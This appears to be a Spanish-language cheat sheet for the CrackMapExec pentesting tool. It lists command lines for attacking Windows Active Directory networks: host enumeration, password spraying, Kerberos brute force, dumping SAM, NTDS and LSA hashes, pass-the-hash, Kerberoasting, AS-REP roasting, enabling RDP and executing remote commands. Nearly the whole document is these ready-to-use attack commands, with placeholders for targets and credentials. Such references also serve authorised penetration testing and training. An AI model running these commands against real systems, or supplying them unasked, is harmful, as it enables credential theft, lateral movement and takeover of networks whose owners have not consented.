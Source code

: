 # CrackMapExec Cheat Sheet

#### Listar equipos dentro de la red de un AD
```
crackmapexec smb 192.168.1.0/24
```

#### SMB con credenciales a dominio WORKGROUP
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' -d WORKGROUP
```

#### Password Spraying
```
crackmapexec smb 192.168.1.0/24 -u '<USERNAME>' -p listpassword.txt
```

#### Spraying Attack con usuario y contraseña lineal
```
crackmapexec smb <IP-Address> -u users.txt -p passwd.txt --no-bruteforce --continue-on-success
```

#### Spraying Attack
```
crackmapexec smb <IP-Address> -u users.txt -p '<PASSWORD>' --continue-on-success
```

#### Conocer en que equipos se puede autenticar especificando un usuario y password
```
crackmapexec smb 192.168.1.0/24 -u '<USERNAME>' -p '<PASSWORD>'
```

#### Enumeración de directorios compartidos SMB con NULL session
```
crackmapexec smb <IP-Address> -u 'null' -p ' ' --shares
```

#### Mostrar el contenido de un directorio compartido en SMB con credenciales
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --spider <DIRECTORY-NAME> --regex .
```

#### Descargar un archivo de un directorio compartido
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --share <DIRECTORY-NAME> --get-file <FIEL-NAME> <OUTPUT-NAME>
```

#### Enumerar usuarios por Brute Force por RID
```
crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```

#### Dumping Hashes SAM
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --sam
```

#### Dumping Hashes NTLM
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --ntds
```

#### Dumpear Hashes LSA
```
crackmapexec smb <IP-Address> -u 'Administrator' -p '<PASSWORD>' --lsa
```

#### Dumpear Hashes NTD
```
crackmapexec smb <IP-Address> -u 'Administrator' -H '<HASH-NT>' --ntds vss
```

#### PassTheHash
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' --local-auth
```

#### LAPS
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --laps
```

#### Fuerza bruta para Autenticación a Kerberos
```
crackmapexec smb <IP-Address> -u users.txt -p '' --kerberos
```

#### Ataque de Kerberoasting
```
crackmapexec ldap <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --kerberoasting <OUTPUT-FILE>
```

#### Ataque de Asreproast
```
crackmapexec ldap <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --asreproast <OUTPUT-FILE>
```

#### Habilitar RDP con usuario y password de Administrador
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' -M rdp -o action=enable
```

#### Ejecutar comandos usando el Hash
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' -d <GROUP> -x 'COMMAND'
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' -d <GROUP> -X 'COMMAND'
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)